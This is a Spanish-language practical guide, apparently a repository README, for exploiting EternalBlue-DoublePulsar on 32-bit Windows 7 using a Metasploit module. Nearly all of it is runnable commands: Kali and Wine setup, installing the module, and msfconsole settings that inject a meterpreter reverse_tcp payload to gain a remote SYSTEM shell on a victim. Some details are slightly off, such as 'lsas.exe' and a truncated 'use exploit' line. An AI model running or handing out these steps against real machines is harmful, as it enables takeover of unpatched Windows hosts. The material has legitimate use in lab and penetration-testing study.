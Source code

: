 # Guía práctica para explotación de Eternalblue-DoublePulsar sobre Windows 7 - i386 

## Procedimiento

## Preparación de entorno
Se debe instalar el programa wine y agregar la arquitectura de 32bits al sistema, para esto ejecutaremos los pasos siguientes:

- root@kali:~#  apt-get install wine -y
- root@kali:~#  apt-get install winetricks -y
- root@kali:~#  dpkg –add-architecture i386 && apt-get update && apt-get install wine32 -y
## 1) Instalación del módulo en Metasploit
- Clonar el repositorio de Eternalblue-DoublePulsar 
- root@kali:~#  git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
- root@kali:~#  cd Eternalblue-Doublepulsar-Metasploit/
- Copiar el archivo eternalblue_doublepulsar.rb a la siguiente dirección: /usr/share/metasploit-framework/modules/exploits/windows/smb/
- Crear la estructura de directorios ‘/root/shadowbroker/windows/lib/x86-Windows/’ y copiar la carpeta deps en  ‘/root/shadowbroker/windows/lib/x86-Windows/’
- Abrir una terminal y tipear el comando winecfg para que se cree la carpeta /root/.wine/drive_c/
## 2) Explotación    
- Abrir una terminal y iniciar metasploit con el comando msfconsole
- Llamamos al exploit con el path exploit/windows/smb/eternalblue_doublepulsar
  - msf5 > use exploit    
- vemos las opciones disponibles 
  - msf5 > show options
- Ingresamos la IP y el puerto (por defecto 445) del objetivo
  - msf5 > set RHOST (IP víctima)
- Seleccionamos el sistema objetivo
  - msf5 > show targets
  - msf5 > set target 8
- Seleccionamos el proceso en cual se va a inyectar el payload, es muy importante tener en cuenta que tipo de arquitectura se va a atacar, por defecto el proceso a inyectar es wlms.exe, esto funciona con equipos de 32 bits, si nuestra víctima utiliza un sistema de 64bits se debe cambiar de proceso a lsas.exe, de lo contrario el exploit fallará.
  - msf5 > set PROCESSINJECT wlms.exe    (si es de 32bits)
  - msf5 > set PROCESSINJECT lsas.exe        (si es de 64bits)
- Seleccionamos la arquitectura del sistema que vamos a atacar (x32 o x64) en nuestro caso 32 bits
  - msf5 > set TARGETARCHITECTURE x32
- Seleccionamos el payload, en nuestro caso un meterpreter, y lo configuramos 
  - msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
  - msf5 > set LHOST (IP atacante)
- Revisamos una última vez que estén correctamente configurados todos los parámetros
  - msf5 > show options
- Finalmente usamos el comando exploit y obtendremos una sesión remota de meterpreter con privilegios de System en la máquina víctima

## Materiales y recursos
1- Máquina atacante con Kali Linux y Metasploit
2- Exploit Eternalblue-DoublePulsar (https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
3- Máquina víctima, Windows 7 con arquitectura de 32bits 

